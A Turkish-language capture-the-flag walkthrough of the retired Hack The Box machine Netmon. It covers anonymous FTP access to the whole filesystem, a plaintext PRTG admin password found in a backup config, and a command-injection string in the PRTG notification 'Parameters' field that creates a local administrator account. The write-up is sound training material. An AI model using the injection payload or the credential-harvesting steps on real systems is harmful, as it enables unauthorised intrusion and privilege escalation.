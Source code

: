 ```yaml
---
{"dg-publish":true,"permalink":"/ctf/netmon-ctf/"}
---
```


Netmon, şimdiye kadar yaptığım en kısa kutular arasında Jerry ve Blue ile yarışıyor. Kullanıcı ilk kanı 2 dakikadan kısa sürede alındı ve bu süre muhtemelen daha da kısa olabilirdi, çünkü Hack The Box sayfası açıldığı anda birçok kişi bayrak göndermeye çalışırken çöktü.

Sunucu, anonim FTP üzerinden tüm dosya sistemini sunuyor, bu da kullanıcı bayrağını almak için yeterli. Ayrıca, 80. port üzerinde bir PRTG Network Monitor örneği barındırıyor. FTP erişimini kullanarak eski kimlik bilgilerini bir yedek yapılandırma dosyasında bulacağım ve bunları mevcut kimlik bilgilerini tahmin etmek için kullanacağım. Daha sonra, PRTG içindeki bir komut enjeksiyonu güvenlik açığından yararlanarak SYSTEM yetkileriyle bir reverse shell alıp root bayrağını ele geçireceğim.


## Box Info

|Name|[Netmon](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fnetmon)[![Netmon](https://0xdf.gitlab.io/icons/box-netmon.png)](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fnetmon)  <br>[Play on HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fnetmon)|
|---|---|
|Release Date|[02 Mar 2019](https://twitter.com/hackthebox_eu/status/1101032274592706565)|
|Retire Date|29 Jun 2019|
|OS|Windows ![Windows](https://0xdf.gitlab.io/icons/Windows.png)|
|Base Points|Easy [20]|
|Rated Difficulty|![Rated difficulty for Netmon](https://0xdf.gitlab.io/img/netmon-diff.png)|
|Radar Graph|![Radar chart for Netmon](https://0xdf.gitlab.io/img/netmon-radar.png)|
|![First Blood User](https://0xdf.gitlab.io/icons/first-blood-user.png)|00:01:53[![Baku](https://www.hackthebox.com/badge/image/80475)](https://app.hackthebox.com/users/80475)|
|![First Blood Root](https://0xdf.gitlab.io/icons/first-blood-root.png)|00:54:48[![snowscan](https://www.hackthebox.com/badge/image/9267)](https://app.hackthebox.com/users/9267)|
|Creator|[![mrb3n](https://www.hackthebox.com/badge/image/2984)](https://app.hackthebox.com/users/2984)|

## Recon

### nmap

![Pasted image 20250208143525.png](/img/user/Pasted%20image%2020250208143525.png)

```
nmap -sV -sC -p 21,80,135,139,445,5985 10.10.10.152
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 06:38 EST
Nmap scan report for 10.10.10.152
Host is up (0.82s latency).

PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
80/tcp   open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-08T11:38:31
|_  start_date: 2025-02-08T11:28:14
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.28 seconds
```

### HTTP - PRTG Network Monitor - TCP 80

Sayfa, PRTG Network Monitor'ün (NETMON) bir örneğidir:

![Pasted image 20250208144033.png](/img/user/Pasted%20image%2020250208144033.png)

Bu aşamada kimlik bilgileri olmadan, [varsayılan](https://www.cleancss.com/router-default/PRTG/PRTG_Network_Monitor) kimlik bilgileri olan 'prtgadmin'/'prtgadmin' ile deneme yapacağım. Eğer bu bilgiler çalışmazsa, FTP'ye geçeceğim

### FTP - TCP 21

#### Login

FTP anonim girişe izin verdiğinden, kontrol edip ne bulabileceğime bakacağım:

![Pasted image 20250208144323.png](/img/user/Pasted%20image%2020250208144323.png)


#### user.txt

FTP root'u C:\ gibi görünüyor. Buradan user.txt dosyasını alabilirim:

![Pasted image 20250208144503.png](/img/user/Pasted%20image%2020250208144503.png)


#### PRTG Network Monitor

"**\ProgramData\Paessler\PRTG Network Monitor** dizininde, PRTG Network Monitor uygulamasıyla ilgili bilgileri bulacağım."

```
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:40PM       <DIR>          Configuration Auto-Backups
03-04-19  12:44PM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
03-04-19  12:44PM       <DIR>          Logs (Web Server)
03-04-19  12:49PM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
03-04-19  01:24PM              1227115 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
03-04-19  01:25PM              1672215 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
226 Transfer complete.
```

Üç config (yapılandırma) dosyasını alıp inceleyeceğim. **.dat** dosyası ve **.old** dosyasında şifrelerin olabileceği kısımlara baktığımda, genellikle şu şekilde görünür:

```
wget ftp://anonymous:anonymous@10.10.10.152/ProgramData/Paessler/PRTG\ Network\ Monitor/PRTG\ Configuration.old.bak
```

![Pasted image 20250208150306.png](/img/user/Pasted%20image%2020250208150306.png)


```
            <dbpassword>
              <flags>
                <encrypted/>
              </flags>
            </dbpassword>
```

Ancak, PRTG Configuration.old.bak dosyasında şunu buldum:

```
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```


## Shell as SYSTEM

### Log In

Artık kimlik bilgilerine sahibim, bu yüzden giriş yapmayı deneyebilirim. Ne yazık ki, **.bak** dosyasından alınan kimlik bilgilerini denediğimde şu sonuç dönüyor:


![Pasted image 20250208144910.png](/img/user/Pasted%20image%2020250208144910.png)

Ancak biraz düşününce, kimlik bilgileri eski bir dosyanın yedeğinden alınmış ve **2018** ile bitiyor. **2019**'u deneyeceğim ve bu işe yarıyor, beni Sistem Yöneticisi için PRTG panosuna yönlendiriyor:

![Pasted image 20250208145109.png](/img/user/Pasted%20image%2020250208145109.png)

### Command Injection

2018 yazında PRTG'deki komut enjeksiyonu (command injection) hakkında bir [blog](https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/) yazısı var. Bu komut enjeksiyonu, bildirim yapılandırmasındaki parametreler alanında, bazı varsayılan Demo scriptleriye birlikte bulunuyor. Birçok kullanışlı karakter filtrelenmiş olsa da, yazıda bahsedilen kişi, hesaba yeni bir kullanıcı eklemek için enjeksiyon yapmayı başarmış.

Ben de bu blog yazısını takip ederek, **Kurulum > Hesap Ayarları > Bildirimler** bölümüne gideceğim:

En sağdaki **artı (+) butonuna** tıklayıp, ardından **'Yeni Bildirim Ekle'** seçeneğini seçeceğim. Diğer tüm ayarları değiştirmeden bırakıp, en aşağıya kaydırarak **'Program Çalıştır'** seçeneğini seçeceğim. Enjeksiyon, **Parametreler** alanında gerçekleşiyor. Program dosyası olarak **demo ps1 dosyasını** seçip, ardından şu komutu gireceğim:

```
test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add
```

![Pasted image 20250208151528.png](/img/user/Pasted%20image%2020250208151528.png)

Kaydet'e tıkladığımda, bildirimler listesinin başına geri dönüyorum. Yeni bildirimimin yanındaki kutuya tıklayıp, ardından üstteki çan simgesine tıklayarak bildirimi test edeceğim.

![Pasted image 20250208151547.png](/img/user/Pasted%20image%2020250208151547.png)

I get this:

![Pasted image 20250208151643.png](/img/user/Pasted%20image%2020250208151643.png)

Birkaç saniye bekledikten sonra, yeni kullanıcımla smbmap'i çalıştıracağım ve tam erişimim olduğunu göreceğim:

![Pasted image 20250208151902.png](/img/user/Pasted%20image%2020250208151902.png)
![Pasted image 20250208151909.png](/img/user/Pasted%20image%2020250208151909.png)

### Shell

![Pasted image 20250208152527.png](/img/user/Pasted%20image%2020250208152527.png)

![Pasted image 20250208152514.png](/img/user/Pasted%20image%2020250208152514.png)

